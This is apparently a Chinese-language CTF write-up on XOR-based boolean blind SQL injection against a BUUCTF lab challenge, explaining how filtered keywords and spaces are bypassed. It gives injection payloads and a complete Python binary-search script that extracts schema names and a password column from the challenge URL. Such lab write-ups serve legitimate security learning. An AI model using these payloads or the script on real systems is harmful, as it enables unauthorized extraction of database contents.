



知识点：

1.sql注入

2. 异或（xor)注入，过滤and,or

3. 盲注


fuzz测试：



1. 发现and，union，空格都被过滤

没有报错界面，发现返回结果只有三种，查询回显的数据，报错ERROR!!!和被waf拦截的界面

此时可以想到布尔盲注

构造payload:

```python
?id=0^1^0
```





2. 发现返回id=1时的界面，此时可以考虑xor注入

payload:

```python
?id=0^(ascii(substr((database()),1,1))>99)^0
```




说明此时数据库名第一位ascii为103，为g。和前面的sql注入一样


3. 大佬的二分查找发exp:

```python
# 然后是二分法，二分法要快很多：
# -*- coding: UTF-8 -*-
import re
import requests
import string

url = "http://44102d97-55a4-4aa9-b01b-c2f73d821edb.node3.buuoj.cn/search.php"
flag = ''

# flag{07as0d5c-0ba1-4cf7-93ce-acf19023e7e7}


def payload(i, j):
    # sql = "1^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)^1"%(i,j)                                #数据库名字
    # sql = "1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='geek'),%d,1))>%d)^1"%(i,j)           #表名
    # sql = "1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)^1"%(i,j)        #列名
    sql = "1^(ord(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1" % (i, j)
    data = {"id": sql}
    r = requests.get(url, params=data)
    # print (r.url)
    if "Click" in r.text:
        res = 1
    else:
        res = 0

    return res


def exp():
    global flag
    for i in range(1, 10000):
        print(i, ':')
        low = 31
        high = 127
        while low <= high:
            mid = (low + high) // 2
            res = payload(i, mid)
            if res:
                low = mid + 1
            else:
                high = mid - 1
        f = int((low + high + 1)) // 2
        if (f == 127 or f == 31):
            break
        # print (f)
        flag += chr(f)
        print(flag)


exp()
print('flag=', flag)
```

